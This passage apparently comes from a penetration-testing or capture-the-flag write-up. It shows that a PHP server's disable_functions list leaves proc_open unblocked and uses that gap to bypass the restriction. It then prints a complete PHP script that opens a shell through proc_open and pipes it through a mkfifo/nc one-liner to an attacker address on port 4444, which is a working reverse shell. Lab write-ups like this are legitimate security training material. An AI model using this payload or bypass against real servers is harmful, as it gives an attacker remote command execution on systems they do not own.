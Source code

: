When viewing this, we can find that there's a lot of `disabled_functions` present:

<pre data-overflow="wrap"><code><strong>pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen
</strong></code></pre>

Functions like `shell_exec`, `passthru` and `system` are all blocked, meaning we cannot get a reverse shell using this. We can use Hacktricks's list of useful PHP functions to see which are not disabled:

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass" %}

The `proc_open` function has not been disabled, so we can use that to get a reverse shell. Searching for `proc_open` PHP reverse shell returns this:

{% embed url="https://brigzzy.ca/Pentesting/Tools/php-reverse-shell/" %}

We can certainly use snippets of this and PHP code to get a reverse shell. Instead, we can change the command to run `mkfifo` shell:

```php
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {

    fwrite($pipes[0], 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.13 4444 >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
```
